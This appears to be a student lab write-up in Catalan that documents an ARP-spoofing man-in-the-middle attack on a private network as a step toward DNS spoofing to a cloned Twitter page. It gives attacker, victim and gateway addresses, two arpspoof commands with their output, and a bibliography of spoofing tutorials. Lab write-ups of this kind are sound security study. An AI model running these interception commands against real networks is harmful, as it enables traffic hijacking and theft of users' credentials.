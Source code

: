 IP Atacant. 10.200.243.137 
MAC Atacant: 08:00:27:16:51:52

IP Victima: 10.200.243.212
MAC Victima: 18:c0:4d:a0:8f:c8

IP Router Gateway: 10.200.243.1
MAC Router Gateway: 00:22:57:be:53:01

Pàgina clonada: http://www.twitter.com


SPOOF del tràfic entre la VÍCTIMA I EL ROUTER --> ES CANVIA LA MAC DEL CLIENT VICTIMA PER LA MEVA: 18:c0:4d:a0:8f:c8 PER LA MEVA (ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA TORNADA.
 
└─# arpspoof -i eth0 -t 10.200.243.212 10.200.243.1
8:0:27:16:51:52 18:c0:4d:a0:8f:c8 0806 42: arp reply 10.200.243.1 is-at 8:0:27:16:51:52

"Tot el fluxe que va del servidor a la víctima, redirigeix-los a la meva màquina"

TORNADA

SPOOF del tràfic entre la EL ROUTER I LA VICTIMA --> ES CANVIA LA MAC DEL DEL ROUTER PER LA MEVA: 0:22:57:be:53:1 PER LA MEVA (ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA TORNADA.

┌──(root㉿osboxes)-[/home/anonymous]
└─# arpspoof -i eth0 -t 10.200.243.1 10.200.243.212
8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52
8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52

"Tot el fluxe que va de la víctima al servidor, redirigeix-los a la meva màquina"


RESUM: TOT EL TRÀFIC DE PAQUETS QUE SURT DE LA VÍCTIMA AL SERVIDOR, SERÀN "FORWARD" AL MEU CLIENT ATACANT. JA QUE EL LA VÍCTIMA CREU QUE QUI CONTACTA ES AL ROUTER, PERO NO. SUPLANTO LA MAC DESTÍ DEL ROUTER PER LA MEVA.


# Solució:
https://www.keyfactor.com/blog/what-is-dns-poisoning-and-dns-spoofing/ 


# Bibliografia
- https://www.imperva.com/learn/application-security/dns-spoofing/
- https://programmerclick.com/article/2815493326/
- https://www.amirootyet.com/post/how-to-spoof-dns-in-kali-linux/
- https://es.acervolima.com/ataque-mitm-man-in-the-middle-usando-arp-poisoning/
- https://www.cloudflare.com/learning/dns/dns-cache-poisoning/
- https://www.okta.com/identity-101/dns-poisoning/
- https://www.boomernix.com/2018/03/realizando-un-dns-spoofing.html
- https://www.keyfactor.com/blog/what-is-dns-poisoning-and-dns-spoofing/
- https://ciberseguridad.blog/25-tipos-de-ataques-informaticos-y-como-prevenirlos/
- https://esgeeks.com/tutorial-ettercap-ejemplos/